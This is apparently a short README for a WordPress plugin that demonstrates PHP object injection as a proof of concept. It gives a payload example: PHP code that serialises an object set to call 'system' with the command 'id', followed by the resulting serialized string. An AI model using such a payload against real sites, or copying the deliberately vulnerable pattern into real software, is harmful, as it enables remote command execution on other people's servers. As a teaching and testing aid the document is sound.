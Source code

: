 # WP Object Injection Proof of Concept
This is a simple plugin to make PoC of PHP Object Injection in Wordpress.

## Payload Example
```
echo serialize(new ObjectInjection("system","id"));
O:15:"ObjectInjection":2:{s:20:"ObjectInjectioncmd";s:2:"id";s:20:"ObjectInjectionfcn";s:6:"system";}
```
